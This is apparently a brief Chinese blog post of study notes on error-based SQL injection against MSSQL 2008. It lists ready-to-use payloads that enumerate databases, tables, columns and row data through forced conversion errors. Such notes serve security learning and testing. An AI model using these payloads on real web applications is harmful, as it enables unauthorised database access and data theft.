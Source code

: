 ```yaml
---
title: "MSSQL 显错注入"
date: 2018-01-15T00:00:00+08:00
draft: false
tags: ['mssql','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


MSSQL 显错注入

<!--more-->

听说 mssql 不同版本的注入语句不同 这里的版本是 mssql 2008.

`db_name() 当前数据库`

`user 当前用户`

`@@version 版本`


**爆库语句**

`id=1 and (select name from master.dbo.sysdatabases where dbid=1)>0`

master.dbo.sysdatabases == master..sysdatabases

**爆表语句**

`id=1 and (select top 1 cast(name as varchar(100))%2b'^'%2bcast(id as varchar(100)) from 数据库.dbo.sysobjects where xtype='U')>0`

**暴列语句**

`id=1 and (select top 1 name from 数据库.dbo.syscolumns where id=id)>0`

**爆数据语句**

`id=1 and (select top 1 cast(列名1 as varchar(100))%2b'^'%2bcast(列名2 as varchar(100)) from 数据库.dbo.表名)>0`

同数据库的话可以直接 from 表名.